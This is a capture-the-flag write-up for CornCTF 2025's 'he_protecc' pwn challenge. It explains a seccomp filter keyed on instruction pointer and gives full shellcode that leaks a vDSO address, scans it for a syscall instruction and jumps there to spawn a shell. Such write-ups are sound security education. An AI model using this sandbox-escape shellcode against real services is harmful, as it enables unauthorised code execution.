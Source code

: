 Solved by: Ub1k
writeup by: Ub1k
# Introduction

This is the first pwn challenge in the CornCTF 2025.
Upon inspecting the binary we immediatly notice two things:

1) **The security mitigations are very relaxed**: the GOT is writable (Partial RELRO) and the code area is not position independent (No PIE) and as such is not randomized.
2) **The ELF is statically linked**: so we can exclude ret2libc and we have to ignore shenanigans with dynamic libraries this time.

![](he_protecc-018.webp)

By executing the binary we are prompted to input the length of some shellcode followed by the code itself.

![](he_protecc-02.webp)

It would definitely be too easy if we could execute a `execve("/bin/sh",null,null)` and get the shell. 
Let's take a closer look at the binary to see what's really happening.
# Looking around
Disassembling the binary reveals an easy to read and understand code, let's look at the most important stuff.

![](he_protecc-013.png)
## mmap my beloved

> [!note]
> **mmap**() creates a new mapping in the virtual address space of the calling process. In other words, it creates a new data area in a position and with permissions decided by the caller, it is used in dynamically loaded binaries and in some cases in heap allocation. 
> In our case the program needs a mmap region because we don't have an area that is writable and executable at the same time.

The mmap call is easy to understand:
- New memory area is **mapped** at position `0x500000`.
- The **size** is `0x1000` bytes (one page or 4096 bytes).
- The p**ermission** parameter is `RWX`: `001 | 010 | 100 = 111 (7)` 

To understand the flags we can use the `strace` command and read the instruction from there:

![](he_protecc-012.png)

These two flags simply signal that the mapped region is private to our process and not mapped to any file, this means the area is initialized with zeroes.

A boring mmap region, nothing special here... sadly
## seccomp

I'm not going to show the full `setup_seccomp()` disassembly as it is a bit ugly, the important part comes at the end:

![](he_protecc-014.webp)

The `prctl` call sets the **NO_NEW_PRIVS** flag, why?  This is a security measure to stop privilege escalation made by malformed seccomp filter, so we put it before every seccomp installation ([explanation](https://unix.stackexchange.com/questions/562260/why-we-need-to-set-no-new-privs-while-before-calling-seccomp-mode-filter)).
The next instruction, the syscall, installs a seccomp filter on the binary.

> [!note]
> As the name suggests, seccomp is a mechanism to harden syscall access by evaluating a small program called a Berkeley Packet Filter (BPF) for every syscall. Based on the result, the syscall is either allowed or denied.

So the questions becomes: What does this seccomp filter allow?
I was today years old when I learned that I don't need to manually decode seccomp filters... there exists a tool for that, thanks Marco. ([Github](https://github.com/david942j/seccomp-tools)): 

So by executing `seccomp-tools dump ./protected` we get:

```
 line  CODE  JT   JF     K
=================================
 0000: 0x20 0x00 0x00 0x00000008  A = instruction_pointer
 0001: 0x01 0x00 0x00 0x003fffff  X = 4194303 (0x3fffff)
 0002: 0x2d 0x00 0x0a 0x00000000  if (A <= X) goto 0013
 0003: 0x01 0x00 0x00 0x004b7fff  X = 4947967 (0x4b7fff)
 0004: 0x2d 0x00 0x07 0x00000000  if (A <= X) goto 0012
 0005: 0x01 0x00 0x00 0x004fffff  X = 5242879 (0x4fffff)
 0006: 0x2d 0x00 0x06 0x00000000  if (A <= X) goto 0013
 0007: 0x01 0x00 0x00 0x00500fff  X = 5246975 (0x500fff)
 0008: 0x2d 0x00 0x03 0x00000000  if (A <= X) goto 0012
 0009: 0x20 0x00 0x00 0x0000000c  A = instruction_pointer >> 32
 0010: 0x01 0x00 0x00 0x00007fff  X = 32767 (0x7fff)
 0011: 0x2d 0x00 0x01 0x00000000  if (A <= X) goto 0013
 0012: 0x06 0x00 0x00 0x80000000  return KILL_PROCESS
 0013: 0x06 0x00 0x00 0x7fff0000  return ALLOW```
```

This is *not* a typical seccomp filter. Normally a seccomp filter checks the syscall number against a whitelist and returns if it is permitted or not, but here the filter loads the `RIP` at the moment of execution of the syscall and only returns ALLOW if the position is one of the following, else the process gets killed:

- Before `0x3FFFFF`: but that's not possible because the address space starts at `0x400000` 
- Between `0x4b7fff` and `0x4fffff`: but there are no syscalls in that region.
- Between `0x500fff` and `0x7fffffffffff`:  After the mmap regio, so this is why we can't execute a syscall in the shellcode :( 

But WAIT, what can we find after `0x500fff` but before `0x7fffffffffff`?

Let's run our debugger of choice and look at the mappings:

![](he_protecc-015.webp)

Using `vmmap` we can see that only one mapping has read and execution permission, and that is `vdso`.

> [!note]
> **vDSO** (virtual dynamic shared object) is a kernel mechanism for exporting a carefully selected set of kernel space routines to user space applications so that applications can call these kernel space routines in-process, without incurring the performance penalty of a mode switch from user mode to kernel mode. ([Wikipedia](https://en.wikipedia.org/wiki/VDSO))

By piping the instructions found in that memory area into `grep` we can see a few syscall instruction inside `vdso`, jumping to them should give us the syscall we need!

![](he_protecc-016.webp)
# Leak & Pwn

Here comes the problem, even if the ELF is not PIE, the stack and also `vdso` still get randomized by **ASLR**, even worse, the internal offsets also get randomized... But let's tackle one problem after another:

## The Leak

Using `p2p stack vdso` we can see 4 leaks on the stack for **vdso**.

![](he_protecc-017.webp)

## Assembly 

Now comes the *difficult* part, we can't calculate the offset between the syscalls and our leak because we cannot guarantee that the internal offsets are constant, we need to scan the memory area...

The first part is easy, let's take the first leak and put it into a register:

```asm
mov r8, [rbp - 0x218]
```

We could zero out the 12 least significant bits to align the address to a page start, but in our case it doesn't matter.
Now let's scan the memory area for a syscall, remember that the opcode is `0x0F05` but we are in little-endian:

```asm
loop:
inc r8
mov ax, word ptr [r8]
cmp ax, 0x050f
jne loop
```

This code snipped increases `r8` (pointer to `vdso` leak) and take two bytes, it then checks if bytes are equal to the one representing a syscall and if not it loops. If it exits the loop, `r8` will point to a valid syscall instruction, and we can continue with setting the other registers for an execve call.

```asm
mov r9, {u64(b"/bin/sh\0")}
push r9

mov rax, 59 
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx

jmp r8 // <-- jump to syscall outside our mmap area
```

and boom, we have a shell.

